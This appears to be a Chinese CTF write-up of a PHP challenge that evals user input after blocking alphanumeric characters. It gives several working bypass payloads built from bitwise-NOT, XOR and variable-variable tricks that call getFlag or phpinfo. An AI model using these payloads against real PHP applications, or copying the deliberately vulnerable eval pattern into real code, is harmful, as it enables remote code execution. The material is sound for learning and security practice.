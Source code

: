 
## 例题1

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

绕过 A-Za-z0-9 这些常规数字、字母字符串的传参，将非字母、数字的字符经过各种变换，最后能构造出 a-z 中任意一个字符

并且字符串长度小于 40

然后再利用 PHP 允许动态函数执行的特点，拼接处一个函数名，这里我们是 "getFlag"，然后执行

```php
$code=~"getFlag";
echo urlencode($code); //得到处理过的值
```

最终 writeup
```php
?code=$_=~%98%9A%8B%B9%93%9E%98;$_();
// 把getFlag取反然后URL编码

?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag

?code=%24%7B%7E%22%A0%B8%BA%AB%22%7D%5B%AA%5D%28%29%3B&%aa=getFlag

?code=$啊=(%27%5D%40%5C%60%40%40%5D%27^%27%3A%25%28%26%2C%21%3A%27);$啊();
```

**PHP7 的思路**

PHP7 前是不允许用 ($a)(); 这样的方法来执行动态函数的，但 PHP7 中增加了对此的支持。所以，我们可以通过 ('phpinfo')(); 来执行函数，第一个括号中可以是任意 PHP 表达式。

所以很简单了，构造一个可以生成 phpinfo 这个字符串的 PHP 表达式即可。payload 如下（不可见字符用 url 编码表示）：
```
(~%8F%97%8F%96%91%99%90)();
```

```php
?code=(~%8F%97%8F%96%91%99%90)();
```
